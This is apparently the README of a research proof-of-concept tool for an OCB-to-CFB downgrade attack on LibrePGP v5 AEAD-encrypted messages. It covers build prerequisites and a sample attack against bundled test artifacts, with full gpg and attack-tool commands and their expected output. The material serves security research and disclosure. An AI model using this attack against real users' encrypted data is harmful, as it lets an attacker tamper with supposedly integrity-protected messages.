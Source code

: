 
# Test tool for LibrePGP v5 AEAD-to-CFB downgrade attacks

This tool implements the AEAD-to-CFB (more specifically OCB-to-CFB) downgrade attack described in https://eprint.iacr.org/2024/1110 as a proof of concept.

## Building the tool

The tool only runs under Unix OS. It has been tested on Debian 10, but should run on any newer distribution as well. It requires GCC 13.1 or higher.

The following prerequisites have to be installed and the corresponding CMake variables of `v5-aead-decr-oracle` be set:

| Library        | GitHub URL                                      | Commit known to work                     | CMake variables to set                                                                        |
| ---            | --                                              | -----                                    | ---                                                                                           |
| Botan 3        | https://github.com/randombit/botan              | 3bee7a12a750c50a90d8147fa2d38c707b032592 | BOTAN_INCLUDE_DIR: set to `.../botan/build/include/public`, BOTAN_LIB_DIR: set to `.../botan` |
| args           | https://github.com/Taywee/args                  | b7d67237e8bdaa517d7fd6e4e84e1f6efa24f8c5 | TARGS_INCLUDE_DIR: set to `.../args`                                                          |
| cpp-subprocess | https://github.com/arun11299/cpp-subprocess.git | af23f338801ed19696da42b1f9b97f8e21dec5d6 | CPP_SUBPROCESS_INCLUDE_DIR: set to `.../cpp-subprocess`                                       |

Afterwards the tool can be built with CMake.

## Sample attack

This section describes how to execute a sample attack against a combination of a PKESK and OCB packet that is contained in the repository together with the corresponding OpenPGP private key.

### Import the test key

Before importing the test private key, consider creating a distinct key ring for it.
If it is imported into a key ring that already contains other keys, then during the attack, which performs numerous trial decryptions of manipulated ciphertexts, there will occur prompts for password entry.
This can be avoided by importing the key to a keyring of a user that has no other keys. The attack tool does not support the choice of a custom key ring. Accordingly, it is recommended to run it under a Unix user that has not other keys.

Change into the CMake build directory and execute the command
```
gpg --import ../artifacts/test-key.asc
```

### Decrypt the original plaintext
Change into the CMake build directory and execute the command
```
gpg --decrypt --show-session-key  ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_string(S), 136).
    3. return KECCAK[512](T || newX || 00, L)  // "00" is the 2-bit padding
    ```

### Run the attack to produce a manipulated ciphertext


Change into the CMake build directory and execute the command
```
./v5-aead-attack replace-chunk -u ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.pkesk.bin --iterations=100 --data-log-dir=run_time -kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914 --nb-leading-random-bytes=256  --query-repeat-count=100 --file-with-aead-packet ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
Here, the specification of the session key with `-kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914` that was determined in the previous step is optional.
It is used to detect some rare errors that can lead to a false success that will lead to failure of the attack. Remove this argument to execute the attack under realistic conditions.

You will see a lot of output and possibly password entry requests in case you have password protected keys in the key ring that is used. 

List the latest sub directory of `run_time` (under the CMake build folder). If the attack was successful, then it contains at least one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`

### Run decrypt the manipulated AEAD ciphertext
Change into the cmake build directory and execute the command (replacing the time stamp with the one of the latest run from the previous step and choosing one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`, should there
be multiple)
```
gpg --decrypt run_time/2025-03-25--10-18-00/74-pkesk-then-aead-packet-with-final-chunk-replaced
```

The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_st                                                                " is the 2-bit padding
    ```

The content of the next-to-final chunk has been replaced with whitespaces.

# License

If not otherwise noted in the source code files, they are under Apache License v2 (see file `LICENSE`). The files adopted from Botan are under the Botan license (see file `botan_license.txt`).

